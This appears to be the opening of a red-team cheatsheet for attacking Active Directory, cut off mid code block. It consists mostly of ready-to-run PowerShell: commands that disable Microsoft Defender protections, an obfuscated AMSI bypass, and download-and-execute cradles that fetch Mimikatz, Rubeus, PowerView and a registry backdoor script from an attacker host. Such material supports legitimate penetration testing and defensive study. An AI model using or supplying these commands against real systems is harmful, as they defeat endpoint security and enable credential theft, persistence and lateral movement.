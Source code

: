 # AD Hacking cheatsheet - Red Team

---

# AV Evasion

**Disable MS Defender**

- Bypass the execution policy
    
    ```powershell
    powershell -ep Bypass
    ```
    
- Disable AV using powershell (Requires Local Admin rights)
    
    ```powershell
    Get-MPPreference
    Set-MPPreference -DisableRealTimeMonitoring $true
    Set-MPPreference -DisableIOAVProtection $true
    Set-MPPreference -DisableIntrusionPreventionSystem $true
    ```
    
- Bypass AMSI Check (If Admin rights are not available)
    
    ```powershell
    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
    ```
    
- Download and save the file on disk
    
    ```powershell
    iwr <http://192.168.100.XX/rubeus.exe> -outfile rubeus.exe
    
    ```
    
- Download and execute cradle (Files can be hosted using HFS.exe or Python Webserver)
    
    ```powershell
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/PowerView.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Invoke-Mimikatz.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/mimilib.dll>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Set-RemotePSRemoting.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Set-RemoteWMI.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/MS-RPRN.exe>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Rubeus.exe>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Add-RemoteRegBackdoor.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Find-PSRemotingLocalAdminAccess.ps1>')
    iex (New-Object Net.WebClient).DownloadString('<http://192.168.100.XX/Find-WMILocalAdminAccess.ps1>')
    
